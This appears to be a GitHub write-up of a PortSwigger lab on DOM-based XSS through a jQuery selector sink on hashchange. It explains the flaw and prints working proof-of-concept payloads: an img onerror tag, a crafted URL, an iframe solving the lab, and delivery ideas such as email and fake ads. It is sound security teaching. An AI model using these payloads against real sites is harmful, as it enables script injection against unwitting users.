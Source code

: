 ## Description
    DOM XSS in jQuery selector sink using a hashchange event

## Attack Diagram

<p align="center">
  <img src="./image/attcker_still_data.jpg" alt="XSS Attack Diagram" width="600">
</p>

## Vulnerability Details

<p align="left">
  <img src="./image/dsplay_soursecode.png" alt="XSS Attack Diagram" width="700">
</p>

# What is this vulnerability?

This is a DOM-based XSS that happens when developers use location.hash (the part after # in a URL)
directly in jQuery selectors like $(location.hash) without checking it first. If the page listens for hashchange events
and uses that hash value right away, an attacker can put dangerous code in the hash and trick the browser into running it.

## Why does this happen?

Sometimes, developers trust the hash in the URL and use it directly in jQuery. But jQuery treats that value like a CSS selector — and if it’s something like HTML or JavaScript, it can break out and run code.

# How the attack works

Write a malicious value
Something like: 
```html
<img src=x onerror='alert("XSS")'>
```
Add it to a URL:

```html
https://example.com/page#<img src=x onerror=alert("eazmir > XSS")>
```
Send it to the victim:
  -Email
  -Social media
  -Malicious site
  -Fake ads

# As we can see, when we send the malicious URL to the victim, the code gets executed.

<p align="left">
  <img src="./image/execute_code.png" alt="XSS Attack Diagram" width="700">
</p>

# You can exploit this vulnerability in PortSwigger using this payload:

```html
<iframe src="https://0a24000303dfd02a805f1c5100a2007a.web-security-academy.net/#" onload="this.src += encodeURIComponent('<img src=x onerror=print()>')"></iframe>
```







